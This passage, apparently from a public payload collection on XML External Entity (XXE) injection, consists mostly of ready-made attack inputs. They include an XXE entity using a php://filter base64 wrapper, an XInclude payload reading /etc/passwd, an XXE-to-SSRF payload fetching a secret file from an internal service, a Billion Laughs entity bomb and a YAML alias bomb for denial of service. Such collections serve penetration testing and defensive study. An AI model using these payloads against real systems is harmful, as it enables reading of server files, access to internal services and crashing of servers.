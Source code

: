 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```


## Exploiting XXE to perform a deny of service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
